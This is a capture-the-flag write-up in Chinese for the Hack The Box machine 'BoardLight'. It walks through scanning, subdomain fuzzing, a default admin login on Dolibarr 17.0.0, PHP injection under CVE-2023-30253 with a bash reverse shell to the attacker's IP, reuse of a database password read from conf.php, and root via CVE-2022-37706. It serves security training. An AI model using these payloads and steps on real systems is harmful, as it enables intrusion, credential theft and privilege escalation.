



###### tags: `Hack the box` `HTB` `Easy` `Linux`

# BoardLight
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.231.37 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.231.37:22
Open 10.129.231.37:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH0dV4gtJNo8ixEEBDxhUId6Pc/8iNLX16+zpUCIgmxxl5TivDMLg2JvXorp4F2r8ci44CESUlnMHRSYNtlLttiIZHpTML7ktFHbNexvOAJqE1lIlQlGjWBU1hWq6Y6n1tuUANOd5U+Yc0/h53gKu5nXTQTy1c9CLbQfaYvFjnzrR3NQ6Hw7ih5u3mEjJngP+Sq+dpzUcnFe1BekvBPrxdAJwN6w+MSpGFyQSAkUthrOE4JRnpa6jSsTjXODDjioNkp2NLkKa73Yc2DHk3evNUXfa+P8oWFBk8ZXSHFyeOoNkcqkPCrkevB71NdFtn3Fd/Ar07co0ygw90Vb2q34cu1Jo/1oPV1UFsvcwaKJuxBKozH+VA0F9hyriPKjsvTRCbkFjweLxCib5phagHu6K5KEYC+VmWbCUnWyvYZauJ1/t5xQqqi9UWssRjbE1mI0Krq2Zb97qnONhzcclAPVpvEVdCCcl0rYZjQt6VI1PzHha56JepZCFCNvX3FVxYzEk=
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK7G5PgPkbp1awVqM5uOpMJ/xVrNirmwIT21bMG/+jihUY8rOXxSbidRfC9KgvSDC4flMsPZUrWziSuBDJAra5g=
|   256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILHj/lr3X40pR3k9+uYJk4oSjdULCK0DlOxbiL66ZRWg
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

先將`board.htb`加進`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.231.37   board.htb
```

掃子網
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://board.htb/ -H "Host:FUZZ.board.htb" -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -fw 6243

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 302ms]
```

掃完再加進`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.231.37   board.htb
10.129.231.37   crm.board.htb
```

前往`http://crm.board.htb`可以看到`dolibarr 17.0.0`的頁面，google可以找到[CVE-2023-30253](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253?tab=readme-ov-file)，因為好像需要credential先google`default credential`



得到`admin/admin`可以登入，然後照著上面CVE先測試看看能不能成功

```
<?pHp echo 2+2;?>
```

`save`之後，按旁邊的望遠鏡



確定可以成功



換加入reverseshell
```php
<?pHp exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.29/4444 0>&1'"); ?>
```

kali開nc，一樣save開nc之後就反彈
```
┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4444
```

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```

用linpeas
```
www-data@boardlight:/tmp$ wget 10.10.14.29/linpeas.sh
www-data@boardlight:/tmp$ chmod +x linpeas.sh
www-data@boardlight:/tmp$ ./linpeas.sh

                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                          
                      ╚════════════════════════════════════╝                                                                                
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                            
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)

╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 225 Aug 19  2021 /var/lib/sgml-base/supercatalog.old
-r-------- 1 www-data www-data 16394 May 13 13:20 /var/www/html/crm.board.htb/htdocs/conf/conf.php.old
```

查看`/var/www/html/crm.board.htb/htdocs/conf`，可以看到db帳號密碼
```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

嘗試跟上面的靶機一樣用來登入user`larissa`，可在`/home/larissa`得到user.txt
```
www-data@boardlight:/home$ su larissa
Password: serverfun2$2023!!

larissa@boardlight:~$ cat user.txt
305562df5b61116336dae9087a5a461c
```

透過上面linpeas再搜尋[CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)，直接用他，得root之後在`/root`得root.txt
```
larissa@boardlight:~$ wget 10.10.14.29/exploit.sh

larissa@boardlight:~$ chmod +x exploit.sh
chmod +x exploit.sh
larissa@boardlight:~$ ./exploit.sh
./exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
whoami
root

# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@boardlight:/root# cat root.txt
5c02dacc451147b80a9af44032f9da9f
```